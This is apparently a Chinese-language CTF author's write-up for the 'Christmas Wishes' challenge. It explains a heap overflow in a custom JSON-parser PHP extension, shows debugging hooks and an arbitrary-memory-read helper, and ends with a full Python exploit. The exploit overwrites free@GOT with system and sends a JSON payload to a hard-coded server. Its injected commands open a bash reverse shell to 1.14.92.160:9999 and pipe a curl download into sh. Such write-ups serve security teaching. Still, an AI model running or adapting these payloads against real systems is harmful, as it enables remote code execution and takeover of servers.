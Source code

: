 # Christmas Wishes

[toc]

## 出题思路

其实最开始没想做成一个php pwn题目，原本就是写了个json parser， 然后模拟一个大的项目中的用来处理json的一个小组件，里面存在漏洞， 构造个环境去利用。

在写完以后发现了一个parser_string位置的堆溢出漏洞，而且和`cve 2021 3156`一样。

![image-20220103005237802](https://s2.loli.net/2022/01/03/LuRnxqacFE8TIv7.png)

然后配合链表单向修改可以实现任意地址写，

![image.png](https://s2.loli.net/2022/01/03/cULSumZFydVgvWj.png)

在和[@AFKL](https://afkl-cuit.github.io/)简单讨论这个思路时提到可以直接做成一个php网站，由于本来的代码也是模块化出来的，于是很简单的修改成了一个php拓展，搭建出来目前这个样子。

原本elf版本的在文件 `JsonParse_elf`， php拓展在文件`jsonparser_php`， 

## 调试方案

因为是个so文件，编写了一个简单的loader进行调试

```c
#include <stdio.h>
#include <dlfcn.h>
#include <string.h>
#include <stdlib.h>

typedef struct reader {
    char *buf;
    int size;
    int offset;
} _reader;

int main(){
    void *handle = dlopen("modules/jsonparser.so", RTLD_LAZY);
    void *(* Parser)(void *temp);
    _reader *reader = malloc(0x10);
    char * json = malloc(0x100);
    int fd = open("./exp.json", 0);
    int size = read(fd, json, 0x100);
    reader->buf = json;
    reader->size = size;
    reader->offset = 0;

    Parser = dlsym(handle, "Parser");
    Parser(reader);
}
```

思路是通过重复删除机制构造堆布局，然后通过堆溢出覆盖Item_struct， 通过重复删除的双链表修改可以实现地址修改，将so文件的free_got改为system， 基本可以调试并得到exp， 



在出题过程中对远程docker环境的调试，

直接hook掉了malloc free函数， 在函数`zif_jsonparser_test2`位置增加代码即可，通过`php_printf`打印相关信息可以得到远程的堆环境，(文件在`jsonparser_patch.so`)

```
call 0x0000000000002504
0000000000002504 hook_malloc  

	push rdi;
	call 0x000000000002220;
	pop rsi;
	push rax;
	mov rdx, rax;
	lea rax, qword ptr [0x0000000000024B9]
	mov rdi, rax;
	call 0x00000000002230
	pop rax;
	ret;


call 0x0000000000002526
0000000000002526 hook_free   

	push rdi;
	mov rsi, rdi;
	lea rax, qword ptr [0x000000000024D9]
	mov rdi, rax;
	call 0x00000000002230
	pop rdi;
	call 0x0000000000002050;
	ret;
```

> 甚至在这个操作中还解决了一个bug

![image.png](https://s2.loli.net/2022/01/03/YvHV6ecm4MnzbXi.png)

> 图中可以看到， 最后free的堆块为 0x9200，向上找到size为0x40为item结构体， 而我们构造的溢出的字符串为0x17的 地址为0x91e0，于是可以直接向下覆盖， 修改掉这个结构体，利用delete_item位置。

![image.png](https://s2.loli.net/2022/01/03/AvkiGLwWQS1xRFg.png)

然后编写了个memory_detection的拓展 封装成api， 用于直接查看内存。

```c
PHP_FUNCTION(memory_detection)
{
	long var;
	ZEND_PARSE_PARAMETERS_START(0, 1)
		Z_PARAM_OPTIONAL
		Z_PARAM_LONG(var)
	ZEND_PARSE_PARAMETERS_END();

	php_printf("memeory detection: [%p]\n", var);
	void * p;
	for(int i=0; i<0x100; i++){
		p = var + i*8;
		php_printf("addr[%p]: \t%016llx\t%s\n", p, (long long)*(long long *)p, (char *)p);
	}
}
```

```php
<?php 
memory_detection(base_convert($_GET["addr"], 16, 10));
```

![image.png](https://s2.loli.net/2022/01/03/VWzI7vfjYRFnKtx.png)

## getshell

最后反弹shell， `bash -c '/bin/bash -i >& /dev/tcp/1.14.92.160/9999 0>&1'`, 

## exp

```python
from pwn import * 
import requests

# context.log_level='debug'
# context.terminal=['tmux', 'splitw', '-h']

# cn = process("./loader")

host = 'http://124.70.201.145:7777/'

cmd = '''
# b * Parser
# b * new_Object
b * delete_item
'''
def hhex(number):
    num = "{:0>16x}".format(number)
    tmp = [num[i:i+2] for i in range(0, 16, 2)][::-1]
    tmp2 = ["".join(tmp[i:i+2]) for i in range(0, 8, 2)]
    return "\\u" + "\\u".join(tmp2)


def printff(num):
    print("{:0>16x}".format(num))

# from /proc/self/maps
base = 0x7f872c6e2000
system     = base + 0x000000000002170
printf     = base + 0x000000000002230
free_got   = base + 0x000000000006028
bss = base + 0x00000000000632C


echohello = base + 0x0000000000004059


json = '''
{{
    "1": "aaaaaaa", 
    "2": "aaaaaaa", 
    "3": "aaaaaaa", 
    "4": "aaaaaaa", 
    "5": "aaaaaaa", 
    "6": "aaaaaaa", 
    "7": "aaaaaaa", 
    "8": "aaaaaaa", 
    "A": "aaaaaaa", 
    "A": "bbbbbbb",
    "A": 1, 
    "B": 2,
    "echo hello": "{pad1}\\\x00{pad2}{fake_item}"
}}
'''.format(
    pad1 = 'c' * 0x15, 
    pad2 = 'a'* (0x20 - 0x15), 
    # fake_item = "sh -i < /dev/tcp/81.69.0.47/9" + "\\u0000a" + hhex(echohello) + hhex(0) + hhex(printf) + hhex(free_got - 0x30)
    fake_item = "bash -c 'curl 1.14.92.160|sh'\\u0000"+'a'*1 + hhex(echohello) + hhex(0) + hhex(system) + hhex(free_got - 0x30)
)
'''
wlz@VM-0-4-ubuntu:~$ curl 1.14.92.160
bash -c '/bin/bash -i >& /dev/tcp/1.14.92.160/9999 0>&1'
'''


r = requests.post(host, data={'wishes': json})
print(r.status_code)
print(r.text)
print(json)

printff(system)
printff(printf)
printff(free_got)


# gdb.attach(cn, cmd)
# cn.sendline(json)
# cn.interactive()

```

